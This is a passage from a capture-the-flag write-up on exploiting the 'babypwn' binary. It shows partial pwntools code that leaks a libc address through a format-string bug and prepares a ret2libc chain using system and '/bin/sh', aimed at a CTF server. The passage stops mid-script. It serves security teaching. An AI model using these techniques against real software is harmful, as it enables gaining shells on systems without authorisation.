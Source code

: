 Following the steps above should yield something similar:

![](/images/Pasted%20image%2020220814132330.png)
_Fig. 6 - Offset to saved RIP_

Wonderful! We can now corrupt the saved return address correctly now that the offset from our input is known. 

With this final piece of information we can craft our final exploit!

## Creating the Exploit

I highly recommend using [pwntools](https://github.com/Gallopsled/pwntools) to create your exploits in Python. This library provides so many functions that make our lives much easier.

In general, our exploit needs to accomplish the following:

- Leak an address via the format string vulnerability we found earlier
- Calculate the base address of Libc using the offset of `0x1440` that we calculated earlier
- Create a _ROP chain_ that performs a _Ret2Libc_ attack

I am not going to spend a lot of time describing how to write the exploit in this post. Eventually I will put together a tutorial on how to use `pwntools` as it can be quite confusing and annoying if you are just starting out. Regardless, the exploit code should be pretty straightforward and it follows the same steps that we have covered up to this point.

The exploit code is as follows:

```python
from pwn import *

# Distance to return address
BUF_SIZE = 96

# 'OFFSET' is the distance from the leaked address we are using to the base of libc
# obtained via GDB
OFFSET = 0x1440

# Load binaries
libc = ELF("./libc.so.6")
bin = ELF("./babypwn")
rop = ROP(libc)

def start():
    if args.LOCAL:
        return process("./babypwn")
    if args.GDB:
        return gdb.debug("./babypwn")
    if args.REMOTE:
        return remote("be.ax", 31801)

def main():
    io = start()

    # Leak libc addr from stack
    fmt_payload = b"%p " * 5
    io.recvuntil(b"name?\n")
    io.sendline(fmt_payload)

    # Calculate Libc values
    libc_addr = (io.recvline().decode().split()[2])
    libc_base = int(libc_addr, 16) + OFFSET
    libc_binsh = next(libc.search(b"/bin/sh")) + libc_base
    libc_system = libc.symbols["system"] + libc_base

    # Pretty logging
    log.info(f"Leaked libc address --> {libc_addr}")
```